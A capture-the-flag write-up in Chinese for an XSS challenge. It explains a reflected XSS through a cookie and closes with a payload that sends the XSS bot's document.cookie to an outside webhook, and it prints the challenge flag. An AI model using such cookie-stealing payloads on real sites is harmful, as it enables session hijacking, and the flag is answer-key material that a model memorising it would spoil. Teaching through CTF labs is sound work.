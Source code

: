 # Description
有小黑子???速速请求律师发送律师函

# Difficulty
⭐⭐⭐⭐

# Flag
`mayctf{St4rt_Y0ur_XSS_j0urn3y}`

# Platform (Optional)
ARCH

# Hint (Optional)
XSS

# WriteUp
## 后端api
 - `/`
 - `/changerole` 
 - `/report`

## 前端xss
访问 `/` 时会设置`cookie: role=ikun`，role的值会原样显示在前端，因此可以通过设置`role`的值来触发反射型xss

但是，要注意这里的xss受害只是你当前的浏览器，即你所发送的恶意js脚本是由你的浏览器执行，此时只能达到我打我自己的效果

## 攻击xssbot
本题的xssbot为`/report`接口，它相当于受你控制的一个浏览器，会访问你给出的链接，那这应该怎么利用？

这时我们就需要用到另一个接口`/changerole`，这个接口可以通过`GET`型参数来设置cookie。这时我们就可以通过设置带有xsspayload的`newrole`参数来攻击`/report`这个浏览器，通过xsspayload将`/report`浏览器的cookie作为参数值发送到你的服务器，或者一些可以用来接受外带信息的公用服务器，这里使用`https://webhook`

## exp
```js
url=http://127.0.0.1:9988/changerole?newrole=<script>location=`https://webhook/?f=`+encodeURIComponent(document.cookie)</script>
```
